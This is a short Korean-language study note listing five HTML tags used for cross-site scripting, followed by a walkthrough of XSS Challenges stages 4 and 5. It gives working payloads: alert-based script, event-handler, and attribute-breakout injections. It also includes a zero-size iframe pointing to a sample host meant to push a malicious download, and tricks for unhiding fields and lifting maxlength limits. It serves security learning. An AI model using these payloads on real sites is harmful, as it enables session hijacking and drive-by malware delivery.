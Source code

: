## **xss에 이용되는 태그들 대표적인것 5개**

1. 가장 기본적인 script 태그
    
    <script>alert("hi")</script> 
    
    가장 기본적인 구문으로 대놓고 script태그를 넣어 alert를 실행시키는 구문이다.
    
    이 구문이 실행된다면 해당 사이트는 XSS에 대한 대책이 전혀 없다고 볼 수 있다.
    
2. a 태그 
    
    <a onmouseover="alert('hi')">
    
    a 태그를 이용한 공격이다. onmouseover 이벤트를 통해 공격을 실행한다.
    
3. img태그
    
    <img src=# onerror="alert('hi')">
    
    img 태그를 이용한 공격이다. 고의적으로 없는 src주소를 지정하고 onerror 이벤트를 통해 공격을 실행한다.
    
4. iframe태그
    
    iframe 태그를 이용하여 악성 코드가 포함된 사이트로 세션을 연결해 자동으로 프로그램을 다운로드 시킬 수 있다. 
    
    <iframe src="[http://sameple.com/~bbs/hack.htm](http://sameple.com/~bbs/hack.htm)" name "Click Here" width= "0" height="0" frameborder="0"> </iframe>
    
5. body태그
    
    온로드 속성 또는 배경 속성과 같은 더 모호한 속성을 사용하려 XSS 페이로드를 <body>태그 안으로 전달할 수 있다.
    
    <body onload=alert("XSS")>
    

## XSS Challenges Stage #4

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/153544a1-6812-4052-9b78-c23aaa2bca1f/Untitled.png)

3번과 똑같은 방식으로 진행을 해봤더니 오류가 났다.

힌트를 살펴보니 보이지 않는 field가 있다고 하길래 소스코드를 살펴보았더니 위의 그림과 같이 소스코드가 히든으로 숨겨겨 있는 것을 확인할 수 있었다.  해당 type을 눈에 보이도록 text로 바꾸고

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/a4f667e6-7870-4577-bc21-cb1a330d2a47/Untitled.png)

value 값으로 "><script>alert(document.domain);</script><"을 입력하여 XSS공격을 성공시켰다.

## XSS Challenges Stage #5

이 문제에서는 value에 값이 입력되는 것을 보고 "><script>alert(document.domain);</script>를 입력하려고 했지만 글자가 적히다 말았다. 소스코드를 살펴보니 maxlength를 15로 제한한 것이 원인이었다. 

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/bb70df31-8545-4627-99fe-9a3acf09bfc7/Untitled.png)

그래서 maxlength값을 15대신 넉넉하게 70으로 잡고 "><script>alert(document.domain);</script>를 입력하여 XSS공격을 성공시켰다.
